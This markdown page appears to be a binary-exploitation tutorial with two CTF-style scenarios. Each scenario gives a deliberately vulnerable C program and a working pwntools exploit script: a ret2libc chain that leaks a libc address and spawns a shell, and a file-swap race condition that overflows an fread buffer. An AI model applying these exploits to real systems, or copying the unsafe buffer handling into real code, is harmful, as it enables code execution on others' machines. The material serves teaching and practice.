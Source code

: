 ```yaml
---
sort : 8
---
```


# Scenarios 

## Multiple BOFs > Ret2Libc

> PIE Disabled & NO Canary 

the idea of the challenge is to leak the libc address from the first BOF, by creating a rop chain that will call `puts` from .plt and pass the `puts.got` as an arguemnt. kowing the leaked address we calculate the libc address and execute system in the next rop chain in the second BOF.


> bianry.c

```c
#include<stdio.h>
#include<string.h>

void init_buffer(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void helper(void) {
  __asm__(
    "pop %rdi\n"
    "ret\n"
  );
}

void BOF(){
    char buf[0x10];
    fgets(buf, 0x100, stdin);
    size_t len = strcspn(buf, "\n");
    buf[len] = '\0';
}

void Exploit(){
    char buf[0x500]; // padding 

    BOF();
    puts("Hii");
    BOF();
}

void main(int argc, char **argv, char **envp){
    init_buffer();
    puts("Hii");
    Exploit();
}
```

> compile

```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./binary", checksec=False)
libc = ELF("./libc.so.6", checksec=False)  
context.binary = elf = exe
context.endian = 'little'
context.arch = 'amd64' 

io = process([exe.path])

rop = ROP(elf)
rop.raw(b'A'*40)
rop.raw(rop.ret.address)
rop.puts(elf.got["puts"])
rop.raw(elf.sym._start)

log.success(rop.dump())
io.sendlineafter(b'Hii\n', rop.chain())

leak = hex(unpack(io.recvline().rstrip(), "all"))
log.success(f'leaked puts.got = {leak}')
log.success(f'libc.symbols["puts"] = {hex(libc.symbols["puts"])}')

libc.address = int(leak, 16) - libc.symbols["puts"]
log.success(f'libc.address = {hex(libc.address)}')

bin_sh = next(libc.search(b'/bin/sh'))

rop2 = ROP(libc)
rop2.raw(b'A'*40)
rop2.raw(rop.ret.address)
rop2.system(bin_sh)

log.success(rop2.dump())
io.sendlineafter(b'Hii\n', rop2.chain())

io.interactive()
```

<br>
<br>

## Race Condition & BOF

> inspired by 'nahmnahmnahm' challenge - NahamCON CTF 2023

```note 
the challege gives you the ability to create and write into files and pass those files name to the running binary !
```

this is a great challenge that shows how using `fread` can lead to a BOF, by passing *nmemb* the value of `0x1000` & not closing the file when done (*will send a seg fault*) using `fclose(fp)`.

```c
size_t fread(void *restrict ptr, size_t size, size_t nmemb, FILE *restrict stream);

// The  function  fread()  reads  nmemb  items  of  data, each size bytes long,from the stream pointed to by stream, storing them at the location given by ptr.

// NOTE :: "nmemb" must equal the size/length of the buffe/array to be written
```

so the main idea was to send a file name that doesn't contains *flag*, and it's not a copy of it, and it's size doesn't exceed 80.

And here where we found the Race Condition problem that we can take advantage of !!

By creating a file (i.e. it's name *empty*) that contains only a single null byte, after the file accepted by the running process it will hold on running `getchar()` function, waiting for us to pass any char.

So we can abuse this by modifing the *empty* file content with a payload of our choice, that leads to a BOF. 

> binary.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

void winning_function(){
  char contents[256]; 
  FILE *f;

  puts("Welcome to the winning function!");
  f = fopen("flag.txt", "r");
  fread(contents, 1uLL, 0x100uLL, f);
  puts(contents);
  fclose(f);
}

void vuln(char *filename)
{
  char buffer[80];
  FILE *f;

  f = fopen(filename, "r");
  if ( f ){
    fread(buffer, 1uLL, 0x1000uLL, f);      // Vulnerable !! 
    printf("%s", buffer);
  }
  else{
    perror("fopen");
  }
}

int main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);

  struct stat st;
  char filename[128];
  memset(filename, 0, sizeof(filename));

  printf("Enter file: ");
  fgets(filename, 127, stdin);
  filename[strcspn(filename, "\n")] = 0;

  if (strstr(filename, "flag")){
    perror("filename contains flag");
    return -1;
  }
  else{

    if ( lstat(filename, &st) == -1 ){
      perror("stat");
    }
    else if ( (st.st_mode & 0xF000) == 40960 ){
      perror("is_symlink");
      return -1;
    }
    else if ( st.st_size <= 80 ){
      puts("Press enter to continue:");
      getchar();                            // we can abuse it !! 
      vuln(filename);
    }
    else{
      perror("File size");
      return -1;
    }
  }

  return 0;
}
```

> compile

```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./binary", checksec=False)  
context.binary = elf 

def main():
    io = process([elf.path])

    rop = ROP(elf)
    rop.raw(b"A"*104)
    rop.raw(rop.ret.address)
    rop.call(elf.sym.winning_function, [])
    log.success(f'rop.dump() == {rop.dump()}')

    f = open('empty', 'wb'); f.write(b'\x00'); f.close()
    io.sendlineafter(b'Enter file: ', b'empty')

    # while waiting for getchar()

    f = open('empty', 'wb'); f.write(rop.chain()); f.close()
    io.sendlineafter(b'Press enter to continue:\n', b'\n')
    
    io.interactive()

if __name__ == "__main__":
    main()
```

